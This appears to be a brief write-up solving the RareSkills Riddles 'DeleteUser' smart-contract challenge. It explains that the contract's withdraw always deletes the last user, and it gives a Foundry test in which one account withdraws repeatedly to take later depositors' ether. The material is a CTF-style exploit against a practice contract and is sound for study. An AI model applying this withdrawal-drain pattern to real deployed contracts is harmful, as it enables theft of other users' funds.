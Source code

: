 # RareSkills Riddles - DeleteUser

Exploit is in withdraw method as we are at the end always deleteing last user from the list. 
Whch means we can exploint all users that are deposited after us. 

## Exploit

```
function test_deleteuser() public {
        assertEq(user1.balance, 100 ether);
        deleteUser.deposit{value: 2 ether}();

        vm.startPrank(user2);
        deleteUser.deposit{value: 1 ether}();

        vm.startPrank(user3);
        deleteUser.deposit{value: 3 ether}();

        vm.startPrank(user1);
        deleteUser.withdraw(0);
        deleteUser.withdraw(0);
        deleteUser.withdraw(0);

        assertEq(user1.balance, 104 ether);
    }
```